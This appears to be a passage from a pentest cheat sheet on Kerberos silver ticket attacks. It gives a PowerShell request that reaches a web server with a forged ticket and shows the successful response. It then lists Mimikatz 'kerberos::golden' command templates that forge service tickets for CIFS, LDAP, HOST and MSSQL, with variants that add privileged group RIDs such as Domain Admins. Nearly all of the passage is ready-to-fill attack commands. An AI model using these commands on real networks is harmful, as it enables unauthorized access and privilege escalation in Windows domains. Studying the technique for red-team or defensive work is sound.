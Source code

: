 **Test Service Access:**
```powershell
# Access target resource with forged ticket
iwr -UseDefaultCredentials http://web04
```

**Successful Access Response:**
```
StatusCode        : 200
StatusDescription : OK
Content           : <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
                    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
                    <html xmlns="http://www.w3.org/1999/xhtml">
                    <head>
                    <meta http-equiv="Content-Type" cont...
RawContent        : HTTP/1.1 200 OK
                    Persistent-Auth: true
                    Accept-Ranges: bytes
                    Content-Length: 703
                    Content-Type: text/html
                    Date: Wed, 14 Sep 2022 11:37:39 GMT
                    ETag: "b752f823fc8d81:0"
                    Last-Modified: Wed, 14 Sep 20...
```

### Silver Ticket Attack Variations

**Different Service Types:**
```mimikatz
# CIFS/SMB service ticket
kerberos::golden /sid:<domain_sid> /domain:<domain> /ptt /target:<target_server> /service:cifs /rc4:<ntlm_hash> /user:<username>

# LDAP service ticket
kerberos::golden /sid:<domain_sid> /domain:<domain> /ptt /target:<target_server> /service:ldap /rc4:<ntlm_hash> /user:<username>

# HOST service ticket (multiple services)
kerberos::golden /sid:<domain_sid> /domain:<domain> /ptt /target:<target_server> /service:host /rc4:<ntlm_hash> /user:<username>

# MSSQL service ticket
kerberos::golden /sid:<domain_sid> /domain:<domain> /ptt /target:<target_server> /service:mssql /rc4:<ntlm_hash> /user:<username>
```

**Custom Group Memberships:**
```mimikatz
# Specify custom groups (RIDs)
kerberos::golden /sid:<domain_sid> /domain:<domain> /ptt /target:<target_server> /service:<service> /rc4:<ntlm_hash> /user:<username> /groups:512,513,518,519,520

# Minimal privileges (Domain Users only)
kerberos::golden /sid:<domain_sid> /domain:<domain> /ptt /target:<target_server> /service:<service> /rc4:<ntlm_hash> /user:<username> /groups:513
```
